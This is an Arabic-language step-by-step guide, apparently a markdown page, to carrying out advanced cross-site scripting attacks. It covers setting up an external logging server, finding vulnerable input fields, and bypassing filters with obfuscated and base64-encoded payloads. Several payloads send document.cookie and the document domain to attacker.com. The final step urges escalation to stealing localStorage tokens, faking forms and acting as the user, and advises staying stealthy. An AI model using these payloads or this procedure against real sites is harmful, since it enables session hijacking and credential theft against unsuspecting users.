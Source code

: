
## الخطوات العملية لاستخدام الحقن المتقدمة
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة طلبات واستجابات HTTP.
   - أعد خادمًا خارجيًا (مثل خادم Python بسيط أو خدمة مثل `ngrok`) لتسجيل البيانات المرسلة من الحقن.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة وحدة التحكم (Console)، الشبكة (Network)، وتغييرات DOM.
   - تأكد من أن لديك حسابًا في التطبيق (إذا لزم الأمر) لإدخال البيانات في نقاط التخزين أو اختبار معلمات URL.

2. **تحديد نقاط الإدخال العرضة**:
   - ابحث عن نقاط إدخال تُرسل بيانات إلى الخادم أو تُخزنها، مثل:
     - معلمات URL (مثل `https://example.com/?q=test`) لـ XSS المنعكس.
     - حقول التعليقات، المنشورات، أو أوصاف الملف الشخصي لـ XSS المخزن.
     - حقول النماذج أو الرسائل التي تُعرض مباشرة أو تُخزن.
   - افحص استجابات الموقع (عبر Burp Suite أو عرض المصدر) لتحديد سياق العرض (HTML، سمات، JavaScript، CSS).
   - تحقق من سلوك الفلاتر عبر إدخال اختبارات بسيطة مثل `<b>test</b>` أو `'onerror=alert(1)` لفهم القيود.

3. **إدخال الحقن المتقدمة**:
   - أدخل شيفرة JavaScript متقدمة مصممة لتجاوز الفلاتر في نقطة الإدخال العرضة.
   - صمم الحقنة لتنفيذ شيفرة ضارة، مثل:
     - `<svg onload=eval(atob('YWxlcnQoJ1hTUycp'))>`
     - `<img src=x onerror=fetch('http://attacker.com/log?c='+btoa(document.cookie))>`
     - `<div tabindex=0 onfocus="fetch('http://attacker.com/log?c='+document.cookie)">`
   - جرب الحقن في سياقات مختلفة:
     - معلمة URL: `https://example.com/?q=<svg onload=alert('XSS')>`
     - حقل تعليق: أدخل `<img src=x onerror=eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))>` في تعليق.
     - وصف الملف الشخصي: أدخل `<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4>Click</a>` في حقل الوصف.

4. **مراقبة الاستجابات**:
   - تحقق من تنفيذ الحقنة عبر زيارة الصفحة أو مراقبة الاستجابات:
     - **أدوات المطورين**: راقب وحدة التحكم (Console) للأخطاء أو التنبيهات، والشبكة (Network) للطلبات الصادرة.
     - **خادم خارجي**: تحقق من سجلات الخادم لتأكيد استلام البيانات (مثل ملفات تعريف الارتباط).
     - **تغييرات DOM**: تحقق من تعديل الصفحة أو إعادة التوجيه.
   - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه، إرسال بيانات إلى الخادم، أو إعادة توجيه).
   - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، CSP، أو تنظيف الإدخال.
   - سجل النتائج لتحديد الحقن الناجحة.

5. **تجربة أنواع حقن متقدمة مختلفة**:
   - إذا فشلت الحقنة، جرب أنواعًا أخرى:
     - استخدام وسوم غير شائعة: `<svg>`، `<object>`، `<video>`، أو `<details>`.
     - استهداف أحداث غير تقليدية: `onfocus`، `onblur`، `ontoggle`، أو `onanimationend`.
     - تجاوز الفلاتر: استخدم تعتيم (Base64، ASCII)، صيغ بديلة (مثل `JaVaScRiPt:`)، أو أحرف مشفرة.
   - اختبر نقاط إدخال متعددة (مثل معلمات URL أخرى، حقول تعليقات، أو أوصاف).
   - جرب حقنًا تستهدف سياقات مختلفة (مثل تعبيرات CSS، URIs مشفرة، أو JSON).

6. **تأكيد السياق وتصعيد الاستغلال (اختياري)**:
   - استخدم حقن تكشف سياق التنفيذ (مثل `<img src=x onerror=fetch('http://attacker.com/log?d='+btoa(document.domain))>`).
   - إذا نجحت الحقن، جرب هجمات متقدمة مثل:
     - سرقة بيانات حساسة (مثل `localStorage.getItem('token')`).
     - التلاعب بالصفحة (مثل إنشاء نموذج مزيف).
     - تنفيذ إجراءات المستخدم (مثل إرسال طلبات POST).
   - حافظ على التخفي بتجنب التنبيهات البصرية إذا كنت تستهدف سياقات حساسة.

---